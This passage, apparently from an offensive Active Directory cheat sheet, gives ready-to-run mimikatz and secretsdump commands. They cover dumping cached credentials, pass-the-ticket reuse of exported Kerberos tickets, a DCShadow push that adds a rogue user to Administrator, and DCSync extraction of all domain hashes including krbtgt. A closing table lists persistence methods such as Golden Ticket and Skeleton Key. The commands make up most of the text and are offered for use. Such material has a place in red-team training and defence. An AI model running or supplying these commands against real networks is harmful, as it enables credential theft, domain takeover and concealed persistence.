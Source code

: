 #### ⚙️ Cached Credentials

```bash
mimikatz "lsadump::cache"
```

***

### X. ⚙️ Pass-the-Ticket (PTT)

Steal valid TGT and reuse it:

```bash
mimikatz "sekurlsa::tickets /export"
klist add tgt.kirbi
dir \\dc\C$
```

Works without knowing the user’s password.

***

### XI. 🧠 DCShadow Attack

Push rogue replication updates directly to AD.

```bash
mimikatz "lsadump::dcshadow /object:Administrator /attribute:member /value:CN=eviluser,CN=Users,DC=example,DC=local"
```

***

### XII. ⚙️ DCSync Attack

Mimic domain replication to extract all hashes.

```bash
secretsdump.py example.local/Administrator:Pass@10.0.0.1
```

or

```bash
mimikatz "lsadump::dcsync /domain:example.local /user:krbtgt"
```

***

### XIII. 💀 Persistence in Active Directory

| Method                    | Description                               |
| ------------------------- | ----------------------------------------- |
| **Golden Ticket**         | Reuse forged TGT indefinitely.            |
| **SID History Injection** | Maintain hidden domain admin privileges.  |
| **Skeleton Key**          | Patch LSASS to accept master password.    |
| **AdminSDHolder Abuse**   | Force permissions inheritance every hour. |
| **DCShadow**              | Re-introduce malicious changes silently.  |
